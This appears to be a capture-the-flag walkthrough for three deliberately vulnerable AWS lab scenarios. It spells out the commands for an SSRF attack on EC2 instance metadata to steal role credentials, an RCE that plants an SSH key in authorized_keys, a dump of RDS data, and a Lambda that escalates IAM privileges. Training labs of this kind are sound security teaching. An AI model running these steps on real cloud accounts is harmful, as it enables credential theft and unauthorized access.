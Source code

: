 # Task 1 (Lambda)

Configure your profile
```
aws configure --profile scenario4_username
```
Check Lambda
```
aws lambda list-functions --profile scenario4_username
```
Configure ec2lambda profile
```
aws configure --profile ec2lambda
```
Get the IPv4 of instance
aws ec2 describe-instances --profile ec2lambda

Go to ```http://<EC2 instance IP>```

Abuse the SSRF via the "url" parameter to hit the EC2 instance metadata by going to:
http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
And then:
http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<ec2_role>
Then Add the EC2 instance credentials to your AWS CLI credentials file
```
[ec2role]
aws_access_key_id = access_key
aws_secret_access_key = secret_key
aws_session_token = "token"
```


Get the admin credentials
```
aws s3 ls --profile ec2role
aws s3 ls --profile ec2role s3://sc4-secret-s3-bucket
aws s3 cp --profile ec2role s3://sc4-secret-s3-bucket/../admin-user.txt .

cat admin-user.txt
```


Configure the admin profile
```
aws configure --profile admin
aws lambda list-functions --profile admin
```
Invoke a lambda to complete the scenario_4

# Task 2 (Database)



Configure the user profile
```
aws configure --profile scenario5_username
```
Find the log file
```
aws s3 ls --profile scenario5_username
aws s3 ls s3://<bucket> --recursive --profile scenario5_username
aws s3 cp s3://<bucket>/sc5-lb-logs/AWSLogs/793950739751/elasticloadbalancing/eu-central-1/2019/06/19/555555555555_elasticloadbalancing_eu-central-1_app.sc5-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile scenario5_username
cat <file.log>
aws elbv2 describe-load-balancers --profile scenario5_username ssh-keygen -t ed25519
```
Find the secret admin page


Go to dns name of LB 

Add to DNS name of LB /XXXXXXXXXXX.html from the log file


Do the RCE attack

```
echo "your public ssh key" >> /home/ubuntu/.ssh/authorized_keys
```
Get the ip-address of current EC2 instance
```
curl ifconfig.me
ssh -i <path_to_private_ssh_key> ubuntu@<ipv4_address>
```
User access a private S3 bucket
```
aws s3 ls
aws s3 ls s3://<bucket> --recursive
aws s3 cp s3://<bucket>/db.txt
cat db.txt
```
Get the secret text stored in the RDS database
```
aws rds describe-db-instances --region eu-central-1
psql postgresql://<db_user>:<db_password>@<rds-instance-address>:5432/<db_name>
\dt
select * from sensitive_information;
```

# Task 3 (Secret Bucket)

Configure your profile
```
aws configure --profile scenario7_<user_id>
aws iam list-attached-user-policies --user-name <username_from_mail> --profile scenario7_<user_id>
aws iam get-policy-version --policy-arn <user-policy arn> --version-id v1 --profile scenario7_<user_id>
aws iam list-roles --profile scenario7_<user_id>
aws iam list-attached-role-policies --role-name LamdaExecution-role-<user_id> --profile scenario7_<user_id>
aws iam list-attached-role-policies --role-name LambdaManager-role-<username_from_mail> --profile scenario7_<user_id>
aws iam get-policy-version --policy-arn <LambdaManager-policy arn> --version-id v1 --profile scenario7_<user_id>
aws sts assume-role --role-arn <LambdaManager-role arn> --role-session-name LambdaManager --profile scenario7_<user_id>
```
Then add the lambdaManager credentials to your AWS CLI credentials file at ~/.aws/credentials) as shown below:
```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

python code:
Note: The name of the file needs to be lambda_function.py.
```
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = '<username_from_mail>', PolicyArn='<arn_from_mail>')
	return response
```

Note: The function name needs to be Sc7FinalLambda<userid>.
```
aws lambda create-function --function-name Sc7FinalLambda<userid> --runtime python3.6 --role < LamdaExecution-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager
aws lambda invoke --function-name Sc7FinalLambda<userid> out.txt --profile lambdaManager
```
If you have error try to use
```
aws lambda invoke --function-name Sc7FinalLambda<userid> --profile lambdaManager --cli-binary-format raw-in-base64-out response.json
aws s3 ls --profile scenario7_<user_id>
```
